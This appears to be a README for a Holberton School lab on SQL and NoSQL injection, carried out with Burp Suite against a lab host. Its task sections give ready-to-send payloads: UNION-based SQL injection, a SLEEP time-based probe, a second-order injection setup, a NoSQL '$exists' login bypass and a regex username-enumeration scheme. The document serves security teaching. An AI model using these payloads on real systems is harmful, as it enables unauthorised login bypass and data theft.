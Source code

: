 holberton# NoSQL Injection Testing Lab

## Description
This repository contains educational materials and exercises for understanding NoSQL injection vulnerabilities in a controlled, simulated environment. The exercises are designed to help security professionals and students learn about:
- Account enumeration techniques
- NoSQL query structure and injection patterns
- Authentication bypass scenarios
- Secure coding practices to prevent NoSQL injection

## Educational Objectives
1. Understand how NoSQL injection vulnerabilities can occur
2. Learn to identify vulnerable endpoints and parameters
3. Practice secure testing methodologies
4. Develop skills in:
   - Request parameter analysis
   - Query manipulation
   - Authentication testing
   - Response analysis

## Project Structure
- `web_application_security/` - Main directory containing security exercises
  - `0x03_sql_nosql_injection/` - NoSQL injection testing scenarios
    - `7-flag.txt` - Exercise completion verification

## Tools Used
- Burp Suite (Professional/Community)
- Web browser
- API testing tools

## Important Note
This content is strictly for educational purposes in controlled testing environments. All exercises should be performed only on authorized systems and with appropriate permissions.

## Challenge Instructions

### Task 1: Basic SQL Injection

1. Replace `{YOUR IP}` with your container 0x01 IP in the following URL:
```
http://{YOUR IP}/api/a3/sql_injection/all_orders?status=1'+UNION+SELECT+NULL,version(),NULL,NULL,NULL+--+
```

2. Send request to Repeater
3. In Repeater, modify the host from your IP to `web0x01.hbtn`
4. If successful, you will receive the flag in the response

### Task 2: Table Enumeration

1. In Repeater, use the following request:
```
GET /api/a3/sql_injection/all_orders?status=1'+UNION+SELECT+NULL,name,NULL,NULL,NULL+FROM+sqlite_master--+ HTTP/1.1
Host: web0x01.hbtn
```

2. Try different table names until you find the flag:
   - `sqlite_master`
   - `sqlite_autoindex_Users_1`
   - `not_me`

3. Once you find the correct table, modify the request to:
```
GET /api/a3/sql_injection/all_orders?status=1'+UNION+SELECT+NULL,value,NULL,NULL,NULL+FROM+{TABLE_NAME}--+ HTTP/1.1
Host: web0x01.hbtn
```

### Task 3: Time-Based Injection

In Repeater, use:
```
GET /api/a3/sql_injection/all_orders?status=1'+UNION+SELECT+NULL,NULL,NULL,SLEEP(5),NULL--+ HTTP/1.1
Host: web0x01.hbtn
```

### Task 4: Second-Order Injection

1. Enable intercept
2. Target the following endpoints:
   - Register: `http://web0x01.hbtn/api/a3/sql_injection/second_order/register`
   - Login: `http://web0x01.hbtn/api/a3/sql_injection/second_order/login`

3. For Register, use:
```json
POST /api/a3/sql_injection/second_order/register HTTP/1.1
Host: web0x01.hbtn
Content-Type: application/json

{
  "username": "test2", 
  "name": "{{FLAG}}",
  "password": "test123"
}
```

4. For Login, use:
```json
POST /api/a3/sql_injection/second_order/login HTTP/1.1
Host: web0x01.hbtn
Content-Type: application/json

{
  "username": "test2",
  "password": "test123"
}
```

### Task 5: NoSQL Injection Endpoints

Two vulnerable endpoints:
- `/api/a3/nosql_injection/market_values`
- `/api/a3/nosql_injection/sign_in`

### Task 6: NoSQL Authentication Bypass

Use:
```json
POST /api/a3/nosql_injection/sign_in HTTP/1.1
Host: web0x01.hbtn
Content-Type: application/json

{"username": {"$exists": true}, "password": {"$exists": true}}
```

### Task 7: NoSQL Username Enumeration

1. Send a sign-in request to Intruder
2. In Repeater, use:
```json
POST /api/a3/nosql_injection/sign_in HTTP/1.1
Host: web0x01.hbtn
Content-Type: application/json

{
  "username": {"$regex": "^a"},
  "password": {"$exists": true}
}
```

3. For Intruder:
   - Mark position after `^` in the regex
   - Add payload characters: a-z, 0-9, _
   - Example payload:
   ```json
   {
     "username": {"$regex": "^§a§"},
     "password": {"$exists": true}
   }
   ```

4. For subsequent characters:
   ```json
   {
     "username": {"$regex": "^a§a§"},
     "password": {"$exists": true}
   }
   ```

Note: There are 8 users to find. This process requires multiple iterations and can be time-consuming.

## Learning Resources
- [OWASP NoSQL Injection Guide](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
- [MongoDB Security Checklist](https://www.mongodb.com/docs/manual/administration/security-checklist/)
- Web application security best practices

## Acknowledgments
- Created for educational use at Holberton School
- All testing conducted in isolated lab environments
- Materials designed for security education and awareness

## Disclaimer
The techniques demonstrated are for learning purposes only. Users must:
- Only practice on authorized systems
- Follow ethical testing guidelines
- Understand and respect security boundaries
- Use knowledge responsibly for defensive purposes

## Usage
Complete exercises within the designated testing environment following provided instructions. Document findings and implement suggested security measures.
